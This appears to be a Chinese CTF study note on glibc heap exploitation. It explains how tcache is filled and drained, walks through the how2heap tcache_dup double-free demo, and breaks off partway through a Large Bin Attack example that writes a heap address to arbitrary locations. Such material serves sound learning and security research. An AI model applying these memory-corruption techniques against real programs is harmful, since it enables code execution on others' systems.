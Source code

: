 1. 申请的内存块符合 fastbin 大小时并且在 fastbin 内找到可用的空闲块时，会把该 fastbin 链上的其他内存块放入 tcache 中。
2. 其次，申请的内存块符合 smallbin 大小时并且在 smallbin 内找到可用的空闲块时，会把该 smallbin 链上的其他内存块放入 tcache 中。
3. 当在 unsorted bin 链上循环处理时，当找到大小合适的链时，并不直接返回，而是先放到 tcache 中，继续处理。

然后就是从tcache取出堆块。在内存申请的开始部分，首先会判断申请大小块在 tcache 中是否存在，如果存在就直接从 tcache 中摘取，否则再使用_int_malloc 分配。在循环处理 unsorted bin 内存块时，如果达到放入 unsorted bin 块最大数量，会立即返回。默认是 0，即不存在上限。在循环处理 unsorted bin 内存块后，如果之前放入过 tcache 块，则会取出一个并返回。

#### tcache dup

跟fastbin dup（就是fastbin double free）差不多，甚至比fastbin还好利用。fastbin好歹还有检查，tcache直接不演了，啥检查都没有，随时可以对同一个chunk多次free，形成循环列表。

以 how2heap 的 tcache_dup 为例分析，源码如下：
```c
glibc_2.26 [master●] bat ./tcache_dup.c 
───────┬─────────────────────────────────────────────────────────────────────────────────
       │ File: ./tcache_dup.c
───────┼─────────────────────────────────────────────────────────────────────────────────
   1   │ #include <stdio.h>
   2   │ #include <stdlib.h>
   3   │ 
   4   │ int main()
   5   │ {
   6   │         fprintf(stderr, "This file demonstrates a simple double-free attack with
       │  tcache. 该文件演示tcache下简单的double-free攻击\n");
   7   │ 
   8   │         fprintf(stderr, "Allocating buffer. 分配堆块\n");
   9   │         int *a = malloc(8);
  10   │ 
  11   │         fprintf(stderr, "malloc(8): %p\n", a);
  12   │         fprintf(stderr, "Freeing twice... 二次free...\n");
  13   │         free(a);
  14   │         free(a);
  15   │ 
  16   │         fprintf(stderr, "Now the free list has 现在free列表有 [ %p, %p ].\n", a, a);
  17   │         fprintf(stderr, "Next allocated buffers will be same: 接下来分配到的2个堆块将是一样的 [ %p, %p ].\n", ma
       │ lloc(8), malloc(8));
  18   │ 
  19   │         return 0;
  20   │ }
───────┴─────────────────────────────────────────────────────────────────────────────────
```
没错就是这么简单，free同一个堆块多少次程序都不会崩，根本就没有任何检查。不过double free就足够将其中一个堆块的fd指向自己了，多次free没啥实际意义。

## [Large Bin Attack](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/large-bin-attack/)

效果：在两个任意地址处同时写入一个堆地址
```c
//https://www.cnblogs.com/damoxilai/p/16380750.html
//适用版本：< glibc 2.30
#include<stdio.h>
#include<stdlib.h>
int main()
{
   	unsigned long stack_var1 = 0;
	unsigned long stack_var2 = 0;
	unsigned long *p1 = malloc(0x320);
	malloc(0x20); //防止与下面的chunk合并
	unsigned long *p2 = malloc(0x400);
	malloc(0x20);
	unsigned long *p3 = malloc(0x400);
	malloc(0x20);
```